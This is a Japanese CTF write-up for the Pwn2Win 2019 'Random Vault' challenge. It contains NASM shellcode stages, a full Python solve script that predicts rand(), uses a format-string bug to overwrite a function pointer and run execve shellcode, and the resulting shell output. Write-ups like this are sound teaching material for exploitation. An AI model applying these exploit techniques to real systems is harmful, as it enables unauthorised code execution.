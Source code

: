 # [pwn 303pts] Random Vault - Pwn2Win 2019 CTF
64ビットバイナリで全部有効です。
```
$ checksec -f random_vault
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               3       random_vault
```
ユーザー名にFSBがあります。ユーザー名は初回に加えて1回だけ書き換えられます。RELROが有効で、かつユーザー名の領域からenvpまで0xffで上書きされるのでリターンアドレスからlibc leakはできません。
あと気になるのはbssの一部がRWXになっており、そこに関数ポインタが格納されていることです。なんとかしてここにシェルコードを書き込んで、FSBで関数ポインタを書き換えれば良さそうです。この領域にはsecretという8バイトの値が7個置けますが、置かれる場所はランダムです。要するにrandを予測しつつ、シェルコードを適当に分割して書き込んで実行してね、という問題なのでしょう。
が、極力jmpは避けたいのでreadでシェルコードを読む2段構えにしました。

一段目：
```nasm
stage1:
mov rsi, rdx
jmp stage2
```

二段目：
```nasm
stage2:
xor edx, edx
mov dh, 0xff
xor edi, edi
syscall 
```

これでぴったりです。
```python
from ptrlib import *
import ctypes

glibc = ctypes.cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc-2.27.so')
sock = Process("./random_vault")

# leak proc
sock.sendlineafter(": ", "%11$p")
sock.recvuntil("Hello, ")
proc_base = int(sock.recvline(), 16) - 0x1750
logger.info("proc = " + hex(proc_base))

# set seed
sock.sendlineafter("Quit\n", "3")
glibc.srand(glibc.time(0))
offset = [(glibc.rand() & 0xff) * 8 for i in range(7)]

# overwrite function pointer
payload = fsb(
    pos = 24,
    writes = {proc_base + 0x5000: proc_base + 0x5010 + offset[0]},
    written = 0,
    bs = 2,
    null = False,
    bits = 64
)
sock.sendlineafter("Quit\n", "1")
sock.sendlineafter(": ", payload)
sock.recvuntil("Actions:")

# write shellcode
x = offset[1] - offset[0] - 8
sc1 = u64(b"\x48\x89\xd6\xe9" + p32(x if x > 0 else (0xffffffff ^ (-x)) + 1))
sc2 = u64(b"\x31\xd2\xb6\xff\x31\xff\x0f\x05")
sock.sendlineafter("Quit\n", "2")
sock.sendlineafter(": ", str(sc1))
sock.sendlineafter(": ", str(sc2))
for i in range(5):
    sock.sendlineafter(": ", str(0))

# send second shellcode
shellcode = b'\x90' * (offset[1] + 8)
shellcode += b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
sock.recvline()
sock.recvline()
sock.send(shellcode)
    
sock.interactive()
```

ぽん。
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=16669)
[+] <module>: proc = 0x555555554000
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),136(kvm),999(docker)
[ptrlib]$
```

# 感想
どういう状況でこれが役立つのかよく分からない。
